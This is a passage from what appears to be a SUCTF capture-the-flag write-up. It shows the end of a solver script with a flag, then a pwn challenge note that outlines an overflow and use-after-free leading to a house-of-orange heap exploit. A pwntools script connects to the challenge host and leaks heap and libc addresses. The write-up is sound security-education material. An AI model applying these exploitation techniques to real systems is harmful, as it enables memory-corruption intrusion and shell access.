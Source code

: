 ```python
            check = all_p[i] - now_now
            if(check > _max):
                _max_id = i
                _max = check
        if(_max_id >= 0):
            sending = str(_max) + ' ' + str(_max_id)
        r.sendline(sending)
        if(chk == 4):
            break
        if(sending == 'GG'):
            GG -= 1
            break
r.interactive()
```
flag : SUCTF{gGGGGggGgGggGGggGGGggGgGgggGGGGGggggggGgGggggGg}
## pwn

### Note (kevin47)

* Overflow in add
* UAF
1. Overflow top chunk's size to create an unsorted bin
2. Call pandora to create second unsorted bin
3. Leak libc and heap
4. Use house of orange to get shell

```python
#!/usr/bin/env python2

from pwn import *
from IPython import embed
import re

context.arch = 'amd64'

r = remote('pwn.suctf.asuri.org', 20003)

def add(size, content):
    r.sendlineafter('>>', '1')
    r.sendlineafter('Size:', str(size))
    r.sendlineafter('Content:', content)

def show(idx):
    r.sendlineafter('>>', '2')
    r.sendlineafter('Index:', str(idx))
    r.recvuntil('Content:')
    return r.recvuntil('1.Add a not', drop=True)

def pandora():
    r.sendlineafter('>>', '3')
    r.sendlineafter('yes:1)', '1')


add(10, 'a'*24+flat(0xec1))
add(4000, 'a')
pandora()
x = show(0).strip()
heap = u64(x.ljust(8, '\x00')) - 0x140
print 'heap:', hex(heap)
add(0x90-8, 'a'*7)
x = show(1).strip()
libc = u64(x.ljust(8, '\x00')) - 0x3bfb58
print 'libc:', hex(libc)
```